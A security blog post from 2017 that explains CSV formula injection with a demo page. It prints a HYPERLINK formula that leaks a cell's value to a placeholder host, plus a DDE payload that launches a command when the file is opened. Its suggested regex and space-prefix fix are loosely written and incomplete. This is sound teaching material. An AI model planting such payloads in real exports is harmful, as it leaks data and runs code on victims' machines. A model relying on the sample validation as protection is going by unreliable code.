 ```yaml
---
slug: is-csv-secure/
title: Is that CSV Secure?
date: 2017-12-22
category: attacks
subtitle: Defining CSV injection vulnerabilities
tags: security, csv, code, web
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330929/blog/is-csv-secure/cover_tteaiz.webp
alt: Blank CSV document icon
description: Comma-Separated Values file is a common extension in data files used in several application fields. Here we present a CSV vulnerability most people ignore.
keywords: CSV, Security, Vulnerability, Code, Web, Spreadsheet, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/Wpnoqo2plFA
---
```


Comma-Separated Values file (or CSV) is a type of file that stores
tabular data, numbers and text in plain text. Each line of the file is a
data record and each record consists of one or more fields separated by
commas. CSV is a common data exchange format that is widely supported by
consumer, business, and scientific applications. As an example, a user
may need to transfer information from a database program that stores
data in a proprietary format, to a spreadsheet that uses a completely
different format. The database program most likely can export its data
as "CSV"; the exported CSV file can then be imported by the spreadsheet
program.

<div class="imgblock">

![example](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/csv-example_et64py.webp)

</div>

There is a vulnerability in this types of format that the most of
programmers ignores, that is "CSV Injection". As
[OWASP](https://www.owasp.org/index.php/CSV-Injection) says, it occurs
when websites embed untrusted input inside CSV files, when a spreadsheet
program is used to open a CSV file, any cell starting with '**=**' is
considered as a formula and crafted formulas can be used to malicious
attacks.

## CSV Injection Example

We have a page that stores data on a table and exports it on a CSV file

<div class="imgblock">

![page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/csv-example_et64py.webp)

</div>

We put some normal data and nothing happens

<div class="imgblock">

![input](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/normal-input_tryyrw.webp)

</div>

<div class="imgblock">

![result](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/normal-result_twbflm.webp)

</div>

But what happens if we put a formula like =2+5 in a field?

<div class="imgblock">

![formula-input](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/formula-input_x6toul.webp)

</div>

<div class="imgblock">

![formula-result](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/formula-result_tuzdgy.webp)

</div>

On our table nothing happens, but when we open the CSV file we get the
result of the formula that we introduced. This can be very dangerous if
someone introduce a more dangerous code like

``` text
  =HYPERLINK("http://dangerous.com?x="&A3&"[CR]","Error fetching info: Click me to resolve.")
```

When the user open the file it shows a link with our malicious site

<div class="imgblock">

![vuln](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/hyperlink-vuln_mlaocr.webp)

</div>

Also we can execute commands on the target with this formula injection,
in where we open the calc when someone opens the CSV file

``` text
  =cmd|' /C calc'!A0
```

It shows some warnings but the user trust in the source of the file and
accept

<div class="imgblock">

![warning-1](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330925/blog/is-csv-secure/first-warning_wbfqyq.webp)

</div>

<div class="imgblock">

![warning-2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/second-warning_hha72t.webp)

</div>

And then the code execution

<div class="imgblock">

![exec](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330926/blog/is-csv-secure/exec-example_bumpxl.webp)

</div>

The effectiveness of this vulnerability is that the user trust on the
source of the file without asking himself if is the normal behaviour
when someone opens a CSV file and the program asks form permission

### Solution

- First is user awareness, because Windows shows an alert when someone
  puts command execution code in the CSV file like we’ve seen

- Second, input validation, the most common characters to do this
  attack are:

<!-- end list -->

``` text
  =,+,-,@
```

A developer could make a validation like this regex

**validation.js.**

``` javascript
var regexp = new RegExp(/([=,-,+,@])/g);
```

And blocking this types of input, also, can put a space between the
dangerous character like ' =' to mitigate this vulnerability

``` javascript
if(regexp.test(formData.sdata1)){
  formData.sdata1 = " "+formData.sdata1
}
if(regexp.test(formData.sdata2)){
  formData.sdata2 = " "+formData.sdata2
}
```

In this example we can see that the spreadsheet program doesn’t
calculate the formula and our input is secure

<div class="imgblock">

![secure-input](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330927/blog/is-csv-secure/secure-input_bisups.webp)

</div>

<div class="imgblock">

![secure-result](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330924/blog/is-csv-secure/secure-result_sfsxxc.webp)

</div>

The source code of the page for testing can be found
[here](csvinjection.zip)
